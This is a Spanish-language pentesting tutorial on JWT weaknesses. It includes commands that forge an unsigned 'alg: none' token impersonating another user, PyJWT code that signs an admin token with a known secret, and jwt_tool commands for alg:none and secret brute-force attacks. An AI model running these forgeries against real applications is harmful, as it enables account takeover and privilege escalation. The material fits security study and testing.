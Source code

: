 # ¿ Que son los **Json Web Tokens (JWT)** ? 

Los **Jason Web Tokens (JWT)** son un tipo de token utilizado en la **autenticación** y **autorización** de usuarios en aplicaciones web. JWT es un estándar abierto (RFC 7519) que define un formato compacto y seguro para transmitir información entre diferentes partes de forma confiable. 

----

# Prevenir estos ataques 

Para prevenir la enumeración y explotación de los JWT, es importante utilizar prácticas seguras de desarrollo web, como la validación adecuada de las solicitudes de entrada, la gestión segura de las claves de firma JWT y la limitación del tiempo de expiración de los JWT.

----

# Enumeración 

La enumeración de los JWT se produce cuando un atacante utiliza técnicas de fuerza bruta o cierta ingeniería inversa para obtener información sobre los JWT utilizados por la aplicación web. Por ejemplo, el atacante podría intentar adivinar los valores de los JWT mediante la construcción de **tokens falsos**, tratando de validar en todo momento si la aplicación web los acepta o no. Si el atacante tiene éxito en la enumeración de un JWT válido, podría obtener información confidencial, como nombres de usuario, contraseñas, roles de usuario y otros datos sensibles. 

----

# Explotación 

La explotación de los JWT se produce cuando un atacante utiliza la información obtenida de la enumeración del JWT para explotar debilidades en la aplicación. Por ejemplo, si la aplicación web utiliza JWT para la autenticación, pero no valida adecuadamente la **firma** del JWT, un atacante podría falsificar el token y acceder a la aplicación web como si fuera un usuario legítimo. 

Ahora bien, es importante entender como se construye un JWT: 

![[JWT_Strcture.png]]

Los JWT se separan por puntos, siendo la primera cadena y la segunda, correspondientes a, en primer lugar el **hearder** y en segundo lugar el **payload**. Estas dos cadenas suelen se un JSON convertido a Base64. Por ultimo tenemos la **verify signature**, es decir la firma de verificación digital, la cual se encarga de validar la integridad del token para evitar posibles modificaciones y se compone de un "secret", es decir, una clave secreta junto a un algoritmo de encriptación. 

- # Verify Siganutre None

De cara a un ataque para robar la identidad de otro usuario o ataques de JWT, lo que se suele probar en primer lugar es una técnica para **burlar** dicha **verify signature** ( Esto funcionara en páginas las cuales estén mal desarrolladas y no se valide adecuadamente la firma ). 

El ataque consiste en cambiar el método de encriptación a **NONE**, haciendo uso de la página [JWT.io](https://jwt.io) podemos ingresar tokens para ver como estos se conforman: 

![[JWT.io.png]]

De esta manera podemos ver que la primera parte correspondiente al **HEADER** es un JSON en base64 con el siguiente formato: 

```json
{
	"alg": "HS256",
	"typ": "JWT"
}
```

Mientras que el **PAYLOAD** es un JSON en base64 con el siguiente formato: 

```json
{
	"id": 1,
	"iat": 1685376579,
	"exp": 1685350179
}
```

Y la **VERIFY SIGNATURE** es un HASH con el formato HS256 del conjunto de HEADER + . + PAYLOAD + ( CLAVE SECRETA | SECRET ). 

Por lo que para, por ejemplo, suplantar la identidad del usuario 2, entendemos que en el **PAYLOAD** deberíamos remplazar el **"id":1** por un **"id":2**, pero nuestro problema es que no conocemos el secret por si existiera una validación en el código de este mismo... Pero como mencionamos anteriormente, existen páginas que se encuentran mal desarrolladas y no validan dicha signature, por lo que en primer lugar lo que podríamos intentar realizar es burlar este haciendo uso de un tipo de cifrado NONE, por lo que deberiamos remplazar el **HEADER** por el siguiente JSON: 

```json
{
	"alg": "NONE",
	"typ": "JWT"
}
```

Luego, convertirlo a base64, y el resultado de este sería nuestro primer fragmento de el JWT: 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 
```

Por ultimo, realizariamos el cambio necesario en el **PAYLOAD**, en este ejemplo al intentar remplazar la identidad del usuario 2 simplemente remplazariamos el id: 

```json
{
	"id": 2,
	"iat": 1685376579,
	"exp": 1685350179
}
```

Y una vez más, lo convertimos a base64: 

```bash
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 
```

El conjunto de ambas cadenas en base64 separadas un por un punto, junto a un punto al final dejando vació la **SIGNATURE**, en caso de que la aplicación este mal desarrollada, daría como resultado un JWT válido. 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 # eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 # eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9
# JWT: 
# {resultado_base64_header}.{resultado_base64_payload}.
# eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9. 
```

- # ByPass de JWT con secret 
Por otro lado, una manera de burlar las autenticaciones de JWT es teniendo el **secret** en donde podríamos generar JWT con privilegios elevados.

```bash
pip3 install PyJWT
```
Una vez instalado el modulo **PyJWT** podríamos importar la libreria **jwt** para generar nuestros propios jwt con el **secret** que tengamos.

```python
import jwt
jwt.encode({'username':'admin'},{secret},algorithm="HS256")
```

- # Secret comun 
Otro caso es cuando tenemos que la aplicación **SI VALIDA** el **VERIFY SECRET** de nuestro JWT, pero existe la posibilidad de que es secret sea común y este en diccionarios tipicos, por lo que podríamos probar en la página [JWT.io](https://jwt.io) de ingresar un secreto débil típico que se encuentre en un diccionario de fuerza bruta e ir probando. 

-----
# Jwt_tool

Otra herramienta que podemos utilizar es la herramienta [jwt_tool](https://github.com/ticarpi/jwt_tool) la cual nos permite realizar diversas tareas relacionadas con los JWT Tokens como **decodificarlos**, **análisarlos**, **manipularlos**, **generarlos** y realizar ataques de **fuerza bruta y fuzzing**.

```bash
# Instalación 
sudo git clone https://github.com/ticarpi/jwt_tool

# Usage

# Decodificar JWT
python3 jwt_tool.py '{jwt}' 

# Ataques comunes (PlayBook)
python3 jwt_tool.py -t {url} -rh "{token_header} {toekn} ('Authorization: Barer {jwt}')" -M pb

# Realizar ataques 

# Algoritmo:none
python3 jwt_tool.py '{jwt}' -X a

# Brute Force
python3 jwt_tool.py '{jwt}' -C -d {secrets_list}

```